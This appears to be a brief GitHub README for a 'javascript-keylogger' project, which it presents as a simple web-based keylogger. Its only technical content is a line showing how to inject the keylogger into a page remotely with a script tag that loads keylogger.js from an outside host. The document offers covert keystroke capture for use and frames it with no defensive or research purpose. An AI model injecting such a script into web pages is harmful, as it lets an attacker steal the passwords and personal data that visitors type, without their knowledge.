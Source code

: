 # javascript-keylogger
simple web-based keylogger
You can also inject js code remotely like:
<script type="text/javascript" src="https://example.com/keylogger.js"></script>

